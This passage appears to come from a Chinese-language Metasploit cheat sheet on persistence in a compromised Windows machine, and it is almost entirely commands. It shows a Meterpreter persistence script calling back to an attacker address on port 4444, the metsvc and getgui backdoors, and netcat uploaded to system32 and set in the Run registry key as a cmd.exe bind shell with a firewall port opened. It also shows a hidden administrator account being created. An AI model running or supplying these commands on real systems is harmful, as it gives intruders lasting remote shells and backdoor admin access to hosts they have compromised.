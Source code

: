 

### 通过persistence脚本

```
 run persistence -X -i 5 -p 4444 -r 192.168.1.110
```

### 通过metsvc服务

`run metsvc`

### 通过开启远程桌面

`run getgui -u metasploit -p meterpreter`

### 通过nc

```
upload /usr/share/windows-binaries/nc.exe C:\\windows\\system32
 reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v
nc  -d 'c:\windows\system32\nc.exe -Ldp 455 -e cmd.exe'
netsh firewall add portopening TCP 455 "Service Firewall"  ENABLE ALL
```

### 创建隐藏用户

```
net user test 123456 /add
net localgroup administrators test /add
```

